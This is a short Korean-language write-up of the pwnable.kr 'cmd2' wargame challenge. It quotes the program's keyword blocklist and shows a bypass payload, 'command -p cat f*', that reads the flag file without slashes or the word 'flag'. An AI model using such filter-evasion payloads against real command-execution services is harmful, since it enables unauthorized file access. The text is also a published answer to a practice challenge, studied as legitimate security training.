


# Cmd2 Problem      
     
### Problem URL: <https://pwnable.kr/play.php> <br> 
### [Level: Toddler's Bottle]       

<hr/> 

```    
Mommy! what is PATH environment in Linux?

ssh cmd2@pwnable.kr -p2222 (pw:mommy now I get what PATH environment is for :) [= cmd1 flag])   
```   

우선 어떤 파일이 존재하는지 확인해보면, 아래 사진과 같이 파일들이 구성됨을 알 수 있다.    


    
다음 소스코드를 확인해보자.   
    
   
    
이 또한 Cmd1 문제와 동일하게, System() 함수를 통해 cat flag를 실행시켜 Flag를 획득하는 방식임을 알 수 있다.   
단, Cmd2는 Cmd1 문제와 달리 아래와 같이 필터 항목들이 늘어난 것을 볼 수 있다.    
    
```   
r += strstr(cmd, "=")!=0;
r += strstr(cmd, "PATH")!=0;
r += strstr(cmd, "export")!=0;
r += strstr(cmd, "/")!=0;
r += strstr(cmd, "`")!=0;
r += strstr(cmd, "flag")!=0;    
```   
   
그리하여, /bin/cat 과 같은 명령을 실행할 수가 없다. 그리하여, Cmd1 에서와 동일하게 환경변수를 활용하여   
시도해보았지만, 이 문제를 해결할 수 없었다.    
    
### PATH Environment 
    
  

또한, 앞에서 다루었던 Shell Shock 방식을 통해서도 풀 수 없었다.    
   
### SHELL SHOCK   
   
   
    
그리하여, "/" 를 사용하지 않고 cat 명령을 실행하는 방법을 찾았다.    
command 명령에 옵션 <strong>p</strong>를 사용한다면, 이를 우회할 수 있게 된다는 것이다.   
     
```    
cmd2@pwnable:~$ help command
command: command [-pVv] command [arg ...]
    Execute a simple command or display information about commands.
    
    Runs COMMAND with ARGS suppressing  shell function lookup, or display
    information about the specified COMMANDs.  Can be used to invoke commands
    on disk when a function with the same name exists.
    
    Options:
      -p	use a default value for PATH that is guaranteed to find all of
    	the standard utilities
      -v	print a description of COMMAND similar to the `type' builtin
      -V	print a more verbose description of each COMMAND
    
    Exit Status:
    Returns exit status of COMMAND, or failure if COMMAND is not found.
```   
  
그리하여, 아래와 같이 이를 입력해주면, 문제가 해결됨을 알 수 있다.    
   
```   
./cmd2 "command -p cat f*" 
```   
   
   
    
  
    

